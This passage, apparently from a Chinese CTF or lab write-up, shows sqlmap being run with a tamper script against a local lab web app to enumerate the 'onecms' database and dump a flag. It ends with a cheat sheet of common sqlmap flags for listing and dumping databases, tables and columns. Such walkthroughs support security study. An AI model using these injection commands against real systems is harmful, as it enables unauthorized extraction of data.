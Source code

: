 	| onecms_keywords |
	| onecms_link     |
	| onecms_pro      |
	| onecms_system   |
	| onecms_type     |
	+-----------------+
#
	#查列
	E:\00我的工具\Sqlmap\SQLmap>sqlmap.py -u "http://192.168.2.191:8000/Art_Show.php?id=3" --tamper "space2comment.py" -D "onecms" -T "flag" --column
	*
	Database: onecms
	Table: flag
	[1 column]
	+--------+----------+
	| Column | Type     |
	+--------+----------+
	| flag   | char(30) |
	+--------+----------+
#
	#查字段
	E:\00我的工具\Sqlmap\SQLmap>sqlmap.py -u "http://192.168.2.191:8000/Art_Show.php?id=3" --tamper "space2comment.py" -D "onecms" -T "flag" -C "flag" --dump
	*
	Database: onecms
	Table: flag
	[1 entry]
	+-------------------------+
	| flag                    |
	+-------------------------+
	| flag{YouCan_Use+Tamper} |
	+-------------------------+

## 0x03 sqlmap常见用法（小结）
	./sqlmap.py -u "url" --dbs	#列举数据库
	./sqlmap.py -u "url" --current-db	#当前数据库
	./sqlmap.py -u "url" --users	#列数据库
	./sqlmap.py -u "url" --current-user		#当前用户
	./sqlmap.py -u "url" --tables -D "数据库"	#列举数据库的表名
	./sqlmap.py -u "url" --tables 	#列表
	./sqlmap.py -u "url" --columns -T "tablename" -D "数据库" 	#获取表的列名
	./sqlmap.py -u "url" -T "表名" -C "列名" --dump	#获取表中的数据，包括列
	./sqlmap.py -u "url" --dump -C "字段" -T "表名" -D "数据库"	#获取表中的数据，包含列

# 8.4
